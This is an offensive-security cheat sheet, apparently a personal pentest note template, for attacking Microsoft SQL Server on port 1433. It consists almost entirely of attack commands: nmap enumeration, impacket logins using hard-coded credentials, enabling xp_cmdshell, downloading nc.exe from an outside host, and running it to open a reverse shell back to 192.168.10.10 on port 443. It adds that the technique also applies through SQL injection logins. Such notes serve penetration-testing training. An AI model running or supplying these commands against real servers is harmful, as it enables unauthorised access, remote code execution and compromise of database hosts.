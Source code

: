 #### MSSQL 1433, 4022, 135, 1434, UDP 1434

For this port, you can find credentials from another port and log in with #impacket

```sh
nmap -n -v -sV -Pn -p 1433 –script ms-sql-info,ms-sql-ntlm-info,ms-sql-empty-password <% tp.frontmatter["IPVictima"] %>
```

```sh
impacket-mssqlclient noman:'Noman@321@1!'@<% tp.frontmatter["IPVictima"] %>
```

```
impacket-mssqlclient Administrator: 'Noman@321@1!'@<% tp.frontmatter["IPVictima"] %> -windows-auth
```

```sql
 SELECT @@version;  | SELECT name FROM sys.databases;  | SELECT FROM offsec.information_schema.tables;  |  select from offsec.dbo.users;
```

##### Connect as CMD database

```sql
SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
EXEC xp_cmdshell 'whoami';
exec xp_cmdshell 'cmd /c powershell -c "curl 192.168.10.10/nc.exe -o \windows\temp\nc.exe"';
exec xp_cmdshell 'cmd /c dir \windows\temp';
exec xp_cmdshell 'cmd /c "\windows\temp\nc.exe 192.168.10.10 443 -e cmd"';
also applied on SQL Injection login
```